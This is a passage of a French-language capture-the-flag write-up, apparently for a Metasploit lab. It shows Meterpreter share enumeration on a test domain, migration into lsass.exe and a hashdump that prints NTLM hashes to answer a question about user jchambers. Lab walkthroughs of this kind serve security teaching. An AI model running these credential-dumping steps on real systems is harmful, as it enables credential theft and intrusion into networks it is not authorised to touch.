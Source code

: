 **Exécution du module :**

```bash
msf6 post(windows/gather/enum_shares) > set SESSION 1
msf6 post(windows/gather/enum_shares) > run

[*] Running module against ACME-TEST (10.10.19.109)
[*] The following shares were found:
[*] 	Name: SYSVOL
[*] 	Path: C:\Windows\SYSVOL\sysvol
[*] 	Remark: Logon server share 
[*] 	Type: DISK
[*] 
[*] 	Name: NETLOGON
[*] 	Path: C:\Windows\SYSVOL\sysvol\FLASH.local\SCRIPTS
[*] 	Remark: Logon server share 
[*] 	Type: DISK
[*] 
[*] 	Name: speedster
[*] 	Path: C:\Shares\speedster
[*] 	Type: DISK
[*] 
[*] Post module execution completed
```

Le partage "speedster" se distingue car il n'est pas un partage système standard.

**Réponse :** `speedster`

---

**Question 4 : What is the NTLM hash of the jchambers user?**

Pour extraire les hashes sans faire crasher la session, il est nécessaire de migrer vers le processus `lsass.exe` (Local Security Authority Subsystem Service).

**Étapes de migration :**

```bash
meterpreter > ps
# Identifier le PID du processus lsass.exe

meterpreter > migrate PID_LSASS
[*] Migrating from 1234 to 5678...
[*] Migration completed successfully.
```

**Extraction des hashes :**

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
jchambers:1004:aad3b435b51404eeaad3b435b51404ee:69596c7aa1e8daee17f8e78870e25a5c:::
```

> La migration vers `lsass.exe` est cruciale car ce processus gère l'authentification et possède les hashes en mémoire.
{: .prompt-info }
